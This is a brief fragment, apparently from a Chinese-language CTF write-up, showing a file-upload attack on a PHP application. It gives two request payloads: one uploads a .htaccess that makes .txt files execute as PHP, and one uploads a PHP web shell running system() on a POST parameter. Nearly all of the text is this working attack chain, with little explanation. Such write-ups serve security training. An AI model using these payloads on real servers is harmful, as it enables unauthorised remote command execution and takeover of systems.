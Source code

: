 首先上传.htaccess文件

`filename=.htaccess&content[]=AddType application/x-httpd-php .txt`

![](./i/4.png)

`filename=1.txt&content[]=<?php phpinfo();system($_POST[qqqqq]);?>`
